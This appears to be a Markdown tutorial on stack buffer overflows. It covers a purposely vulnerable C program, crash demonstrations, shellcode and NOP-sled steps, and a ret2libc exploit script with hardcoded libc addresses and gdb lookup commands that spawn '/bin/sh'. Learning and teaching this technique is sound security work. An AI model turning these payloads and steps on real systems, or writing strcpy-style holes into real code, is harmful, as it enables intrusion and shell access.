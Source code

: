 # Buffer Overflows

## Basic Buffer Overflow

### Example Vulnerable Code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void foo(char *str) {
    char buffer[8] = {0};
    strcpy(buffer, str);  // vulnerable function!
}

int main(int argc, char **argv) {
    if (argc < 2)
        exit(EXIT_FAILURE);

    foo(argv[1]);
    puts("Everything is fine!");
    return EXIT_SUCCESS;
}
```

### Demonstration:
```bash
./vulnerable $(python -c 'print("A"*4)')
# Output: Everything is fine!

./vulnerable $(python -c 'print("A"*12)')
# Output: Everything is fine! (padding reached but not overflowed)

./vulnerable $(python -c 'print("A"*14)')
# Output: Segmentation fault (buffer overflow!)
```

### Stack Layout During Overflow:
```
|   Higher Addresses   |
|----------------------|
|     saved eip        |
|     saved ebp        |
|      buffer[]        |
|----------------------|
|   Lower Addresses    |
```

### Exploitation Steps (AlephOne Method):
1. Take control of execution flow (overwrite saved `eip`).
2. Inject shellcode into the buffer.
3. Use a NOP-sled (`0x90`) to improve shellcode execution reliability.

---

## Advanced Buffer Overflows

### Security Mechanisms:
- **Nonexecutable Stack (NX/DEP)**: Prevents stack from being both writable and executable.
- **Address Space Layout Randomization (ASLR)**: Randomizes memory addresses to complicate exploitation.

#### Check Security Measures (`checksec`):
```bash
checksec --file=executable
```

---

## Return-to-libc Technique

When stack execution is prevented (NX enabled), exploit the vulnerability by executing existing libc functions instead of injecting shellcode.

### Concept:
- Overwrite saved `eip` with address of a libc function (e.g., `system()`).
- Pass arguments by stacking them after the function address on the call stack.

### Stack Layout for ret2libc:
```
|    Higher Addresses    |
|------------------------|
| Address of system()    | (saved eip overwrite)
| Return address (fake)  |
| Address of "/bin/sh"   |
|------------------------|
|    Lower Addresses     |
```

### Example Exploit Script (`ret2libc`):
```python
#!/usr/bin/python
import sys

# Padding to reach saved eip
buffer = b'A' * 76

# system() address in libc
buffer += b'\x00\xe0\xdf\xf7'

# Fake return address (to exit())
buffer += b'\x50\x09\xdf\xf7'

# Argument address ("/bin/sh")
buffer += b'\x3c\x53\xf4\xf7'

# Argument for exit()
buffer += b'\x00\x00\x00\x00'

# Output payload
sys.stdout.buffer.write(buffer)
```

### Steps to Exploit (`ret2libc`):
1. Identify padding size.
2. Find `system()` and `"/bin/sh"` addresses in libc:
    ```bash
    gdb ./vulnerable
    (gdb) print system
    (gdb) find 0xf7f2b000, 0xf7f4eb88, "/bin/sh"
    ```
3. Run the exploit:
    ```bash
    (./exploit.py ; cat) | ./vulnerable
    ```

### Resolving Segmentation Faults (Chaining Calls):
To avoid segmentation fault after executing `system("/bin/sh")`, chain another libc function call (e.g., `exit(0)`).

#### Stack Layout for Chaining Calls:
```
|    Higher Addresses    |
|------------------------|
| Address of system()    |
| Address of exit()      | (Next function to call)
| "/bin/sh" address      | (system argument)
| Argument for exit (0)  |
|------------------------|
|    Lower Addresses     |
```

---

## Handling Restrictions

### What if NULL-bytes (`0x00`) Are Forbidden?
- Avoid direct injection of NULL-bytes in the payload.
- Use alternative exploitation methods or encode payload.

### Techniques:
- **ROP Chains**: Execute snippets of existing code (gadgets).
- **Egg-Hunting**: Small payload that searches memory for a larger payload.
